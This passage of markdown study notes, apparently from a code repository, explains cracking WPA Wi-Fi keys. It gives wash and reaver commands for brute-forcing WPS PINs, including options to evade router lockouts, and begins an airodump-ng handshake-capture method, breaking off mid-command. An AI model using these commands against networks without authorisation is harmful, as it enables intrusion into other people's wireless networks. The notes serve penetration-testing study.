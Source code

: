 



### Crack WPA

Unlike WEP, for WPA encryption, each package is encrypted with a *unique temporary key.*

This means the number of packages we collect is irrelevant, since there are no useful info for guess the key.

#### Method 1: use WPS attack

Very difficult to crack. As weakness is used the WPS feature (it's a router's weakness, not a protocol one)

```bash
# list network with WPS around us
wash -i [MONITOR-INTERFACE: e.g.: mon0]
```

`WPS Locked` says if the router is going to block attempts after some failed in order to block brute attacks.

```bash
reaver -b [MAC-TARGET] -c [CHANNEL] -i [MONITOR-INTERFACE: e.g.: mon0] 
```

The output will show the WPA key.

> There are some additional **reaver** options which can be used for handling router which have protection against brute attacks (see **WPS Locked**)
>
> * `-d`, `--delay`: Set delay between pin attempts
> * `-l`, `--lock`: Set the time t wait if the AP locks WPS pin attempts
> * `-r`, `--recurring-delay`: Sleep for y seconds after x pin attempts



#### Method 2: use the handshake packages

The handshake packages are shared every time the client connects to the AP

1. Capture the handshake packet
   1. List clients
   2. Force a disconnection for few seconds, in order to let the client re-connect automatically
   3. At this stage, handshake packets are shared

    ```bash
    # list networks
    airodump-ng
   
    # filter traffic for the TARGET in order to get a client connected [KEEP RUNNING]
    airodump-ng --bssid [MAC-TARGET] --channel [CHANNEL] --write [OUTPUT-FILE] [MONITOR-INTERFACE: e.g.: mon0]
   